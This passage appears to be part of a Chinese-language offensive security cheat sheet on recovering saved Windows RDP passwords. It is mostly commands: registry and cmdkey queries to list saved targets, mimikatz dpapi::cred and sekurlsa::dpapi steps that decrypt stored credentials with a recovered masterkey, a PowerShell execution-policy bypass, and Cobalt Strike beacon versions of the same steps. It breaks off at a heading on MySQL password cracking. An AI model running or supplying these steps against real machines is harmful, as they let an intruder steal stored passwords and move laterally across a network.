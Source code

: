 ### RDP连接密码解密

查看本地机器本地连接过的目标机器。

```
reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /s
```

查看本地用户此目录下是否存有RDP密码文件

```
dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*
```

查看保存在本地的远程主机信息

```
cmdkey /list
```

选择一个密码文件对其进行解密。

此处需要记录下 guidMasterKey 的值，待会要通过 guidMasterKey 找对应的Masterkey 。

```
privilege::debug
dpapi::cred /in:C:\Users\mingy\AppData\Local\Microsoft\Credentials\1E85A94EE31F584E484B8120E3ADA266
```

根据 guidMasterKey 找到对应的 Masterkey

```
sekurlsa::dpapi
```

通过 Masterkey 解密 pbData 数据，拿到明文 RDP 连接密码

```
dpapi::cred/in:C:\Users\mingy\AppData\Local\Microsoft\Credentials\1E85A94EE31F584E484B8120E3ADA266 /masterkey:f391aa638da6b6d846685f84660ee638bd6d3122214de34285b4dd3bd827a5c3925c5bd7a448c175457c19b2556c9f6f5248ef9256060a5b74c1264d3a5a99f8
```

#### List-RDP-Connections-History

```
powershell -exec bypass .\ListLogged-inUsers.ps1
```

#### Cobaltstrike

```
beacon> shell reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /s
beacon> shell dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*

mimikatz "privilege::debug" "dpapi::cred/in:C:\Users\mingy\AppData\Local\Microsoft\Credentials\8CAC243098BA9DDD4EAB58433B85D7F0" "exit"
```

## MySQL数据库密码破解

